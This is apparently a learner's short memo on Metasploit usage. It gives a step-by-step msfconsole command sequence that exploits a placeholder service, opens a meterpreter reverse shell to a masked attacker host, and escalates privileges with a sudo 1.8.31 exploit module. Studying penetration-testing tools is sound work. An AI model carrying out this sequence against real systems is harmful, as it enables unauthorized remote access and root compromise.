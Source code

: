 # Metasploit
## Lesson Learn
- how to use `Metasploit`  
    - In Metasploit, how to use a session with [CTRL] + [Z] or `bg` command.  
- how to set Reverse Shell for WSL  
    - It doen't work well when you use Metasploit due to network.

## Memo
```
msf6> search hogeService
msf6> use 3
msf6> options
msf6> set RHOSTS XXX.XXX.XXX.XXX
msf6> set LHOST YYY.YYY.YYY.YYY
msf6> run
meterpreter> shell
getuid
sudo -V
exit
meterpreter > [CTRL] + [Z] or bg
msf6> search sudo 1.8.31
msf6> use 0
msf6> sessions
msf6> set SESSION [number]
msf6> run
```